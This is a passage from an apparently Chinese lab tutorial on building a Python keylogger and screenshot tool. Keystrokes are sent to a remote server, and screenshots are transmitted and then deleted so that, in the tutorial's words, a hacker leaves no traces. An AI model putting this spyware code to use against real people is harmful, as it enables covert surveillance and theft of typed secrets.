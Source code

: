 ### 4.1 记录键盘输入功能

键盘输入功能模块主要按照以下流程去设计与实现

1. 找到`/dev/input/`目录下对应的键盘设备
2. 使用`evdev`库获取键盘记录的原始数据
3. 对原始数据进行解码处理加入到`字符缓冲区`
4. 在`字符缓冲区`冲处理`Backspace`、`Left`、`Right`等特殊按键操作
5. 将缓冲区中的内容通过`socket`套接字接口传输到远程服务器

由于运行在 docker 容器中的 linux 没有输入子系统，可以借助`X11`来记录键盘输入

详细文档可以[参考](https://github.com/amoffat/pykeylogger)。本文重点介绍基于 Linux 输入子系统的代码实现。

### 4.2 程序总体设计

程序主要分为两个大的功能：

- 键盘记录
- 屏幕截图

可以看出这两个功能是完全不相关的，为了达到并行运行的效果，一半情况下采用

多线程技术，由于屏幕截图功能基于 Python 调用外部程序执行，运行期间会产生

一个子进程用来执行外部程序。所以我们直接采用`多进程`来实现。

## 五、实验步骤

### 5.1 屏幕截图

屏幕截图功能使用了 Python 调用外部程序技术，常用的库用`subprocess`、`os.system`,`commands`等，在这里我们使用了`commands`库，等多的用法可以[参考](http://blog.csdn.net/dbanote/article/details/9414133) 这篇博客。为了让大家对程序理解更深入，请根据注释中的提示完成相应的扩展功能作为练习。代码详情见`screenshot.py`, 该代码可以直接执行。

```
from task import send_pic_task
def screen_shot(file_name='screen_shot', file_type='png'):
    """
    本程序未实现指定图片存储的路径，用户自行实现该扩展功能
    借助os.path.join函数
    """
    print u'3秒过后截图'
    time.sleep(3)
    # 调用外部程序
    # 因为服务端代代码也是运行在本机，如果名字一样。那么os.remove操作可能会导致
    # 在本地看不到效果
    ret = commands.getstatusoutput("scrot " + file_name + 'tmp.' + file_type)
    if ret[0] != 0:
        print u"图片类型不支持，请换用png jpg等常用格式"
        return
    # 读取图像的二进制文件，进行网络传输
    with open(file_name + 'tmp.' + file_type, "rb") as fp:
        send_pic_task(fp.read(), file_name, file_type)
    # 删除scrot生成的图片，作为黑客可不能留下痕迹啊
    os.remove(file_name + 'tmp.' + file_type)
    print u'发送屏幕截图完成'

```
